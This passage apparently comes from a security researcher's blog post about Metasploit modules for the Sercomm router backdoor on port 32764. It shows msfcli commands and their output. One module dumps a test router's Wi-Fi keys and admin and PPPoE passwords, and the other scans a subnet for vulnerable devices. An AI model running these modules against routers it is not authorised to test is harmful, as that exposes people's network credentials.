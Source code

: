 ```
➜  ~  msfcli auxiliary/admin/misc/sercomm_dump_config RHOST=192.168.1.1 E
[*] Initializing modules...
RHOST => 192.168.1.1
[*] 192.168.1.1:32764 - Attempting to connect and check endianess...
[+] 192.168.1.1:32764 - Big Endian device found...
[*] 192.168.1.1:32764 - Attempting to connect and dump configuration...
[*] 192.168.1.1:32764 - Router configuration dump stored in: /Users/mandreko/.msf4/loot/20140113231717_default_192.168.1.1_router.config_104290.txt
[*] 192.168.1.1:32764 - Wifi SSID: Netgear15
[*] 192.168.1.1:32764 - Wifi Key 1: 2A17B75F3D
[*] 192.168.1.1:32764 - Wifi Key 2: C65EFCF158
[*] 192.168.1.1:32764 - Wifi Key 3: 3066C6DDE6
[*] 192.168.1.1:32764 - Wifi Key 4: 1F397B65CA
[*] 192.168.1.1:32764 - HTTP Web Management: User: admin Pass: password
[*] 192.168.1.1:32764 - PPPoE: User: mandreko_dsl Pass: isreallysecure1
[*] 192.168.1.1:32764 - PPPoA: User: mandreko_dsl Pass: isreallysecure1
[*] Auxiliary module execution completed
```

Just tonight, I found that in some of the refactorings we did, the credential collection actually broke, so I made a [pull-request](https://github.com/rapid7/metasploit-framework/pull/2878) to fix it (in case anyone wants to try it before it's merged to trunk). The above output was using the newer code.

## The Scanner Module

So we can dump the nvram configuration of a device. But what good is that if you're unable to find vulnerable devices on the network? In came in my next module, the scanner which could scan all sorts of network ranges. In the below sample, I scanned my test network for the vulnerability, and it found my device, and detected the endianness it was communicating over. You see, MIPS, unlike x86, which is always little endian, can be big or little endian, depending on the processor. Some can even be both, I'm told. However, you need to know which, to know how to communicate with the device. You can start to see how learning MIPS was going to be fun.

```
➜  ~  msfcli auxiliary/scanner/misc/sercomm_backdoor_scanner RHOSTS=192.168.1.0/24 THREADS=64 E
[*] Initializing modules...
RHOSTS => 192.168.1.0/24
THREADS => 64
[+] 192.168.1.1:32764 - Possible backdoor detected - Big Endian
[*] Scanned 036 of 256 hosts (014% complete)
[*] Scanned 058 of 256 hosts (022% complete)
[*] Scanned 083 of 256 hosts (032% complete)
[*] Scanned 105 of 256 hosts (041% complete)
[*] Scanned 129 of 256 hosts (050% complete)
[*] Scanned 157 of 256 hosts (061% complete)
[*] Scanned 196 of 256 hosts (076% complete)
[*] Scanned 205 of 256 hosts (080% complete)
[*] Scanned 233 of 256 hosts (091% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```
